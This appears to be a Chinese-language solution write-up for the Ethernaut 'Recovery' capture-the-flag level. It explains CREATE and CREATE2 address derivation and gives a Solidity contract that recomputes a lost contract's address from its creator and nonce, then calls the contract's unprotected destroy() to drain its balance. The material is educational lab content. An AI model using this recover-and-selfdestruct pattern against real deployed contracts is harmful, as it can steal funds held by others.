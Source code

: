 # Recovery

## Reference
[Recovery](https://ethernaut.openzeppelin.com/level/17) 

[Recovery.sol](https://github.com/yuhuajing/ethernaut-book/blob/main/src/17-Recovery/Recovery.sol)

[Calculate_Sc](https://ethereum.stackexchange.com/questions/24248/how-to-calculate-an-ethereum-contracts-address-during-its-creation-using-the-so)

## 目标
根据 `nonce` 重新计算 `new` 关键字创建的合约地址
## 分析
1. ` A_{ct}=Keccak_{256}(A,N)[0..160]`
2. `create` 关键字通过msg.sender和nonce值生成并部署新的合约地址
3. `A_{cr}=Keccak256( 0xff, A, salt, \\Keccak256(initialisation\_code))[0..160]`
4. `create2` 关键字允许自定义 `salt` 值和 合约code, 用于生成新的合约地址。因此，相同的 `salt和合约code` 可以部署出相同的合约地址
### new
```solidity
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
``` 
1. `new` 关键字通过 `create` 创建新的合约地址
2. 需要实现代码，找出根据 `合约地址和nonce` 计算出的合约实例地址
```solidity
contract FindLostSC {
    function addressFrom(address _origin, uint256 _nonce) public {
        bytes memory data;
        if (_nonce == 0x00)
            data = abi.encodePacked(
                bytes1(0xd6),
                bytes1(0x94),
                _origin,
                bytes1(0x80)
            );
        else if (_nonce <= 0x7f)
            data = abi.encodePacked(
                bytes1(0xd6),
                bytes1(0x94),
                _origin,
                uint8(_nonce)
            );
        else if (_nonce <= 0xff)
            data = abi.encodePacked(
                bytes1(0xd7),
                bytes1(0x94),
                _origin,
                bytes1(0x81),
                uint8(_nonce)
            );
        else if (_nonce <= 0xffff)
            data = abi.encodePacked(
                bytes1(0xd8),
                bytes1(0x94),
                _origin,
                bytes1(0x82),
                uint16(_nonce)
            );
        else if (_nonce <= 0xffffff)
            data = abi.encodePacked(
                bytes1(0xd9),
                bytes1(0x94),
                _origin,
                bytes1(0x83),
                uint24(_nonce)
            );
        else
            data = abi.encodePacked(
                bytes1(0xda),
                bytes1(0x94),
                _origin,
                bytes1(0x84),
                uint32(_nonce)
            );
        address target = address(uint160(uint256(keccak256(data))));
        SimpleToken st = SimpleToken(payable(target));
        st.destroy(payable(msg.sender));
    }
}
```
3. 根据编码规则和参数，找出失落的合约实例，直接调用 `destroy()` 函数，强制转移合约余额
